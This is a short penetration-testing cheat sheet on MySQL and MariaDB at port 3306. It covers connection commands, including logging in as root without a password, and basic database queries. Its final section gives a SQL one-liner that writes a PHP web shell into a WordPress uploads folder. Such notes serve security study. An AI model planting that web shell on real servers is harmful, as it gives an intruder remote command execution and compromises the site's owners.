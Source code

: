 ```yaml
---
title: "3306 mariadb mysql"
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - mariadb
  - port 3306
  - mysql
---
```


# 3306 mariaDB - mySQL

## Description

**MySQL**: MySQL is an open-source relational database management system(RDBMS) based on Structured Query Language (SQL). It is developed and managed by oracle corporation and initially released on 23 may, 1995. It is widely being used in many small and large scale industrial applications and capable of handling a large volume of data. After the acquisition of MySQL by Oracle, some issues happened with the usage of the database and hence MariaDB was developed.

**MariaDB**: MariaDB is an open source relational database management system (RDBMS) that is a compatible drop-in replacement for the widely used MySQL database technology. It is developed by MariaDB Foundation and initially released on 29 October 2009. MariaDB has a significantly high number of new features, which makes it better in terms of performance and user-orientation than MySQL.



## Connect to database: mariadb

```bash
# -h host/ip   
# -u user As default mariadb has a root user with no authentication
mariadb -h <host/IP> -u root
```


## Connect to database: mysql 

```bash
# -h host/ip   
# -u user As default mysql has a root user with no authentication
mysql --host=INSTANCE_IP --user=root --password=thepassword
mysql -h <host/IP> -u root -p fArFLP29UySm4bZj
```

## mariadb commands

```bash
# Get all databases
show databases;

# Select a database
use <databaseName>;

# Get all tables from the previously selected database
show tables; 

# Dump columns from a table
describe <table_name>;

# Dump columns from a table
show columns from <table>;
```

## Upload a shell 

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql panel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```
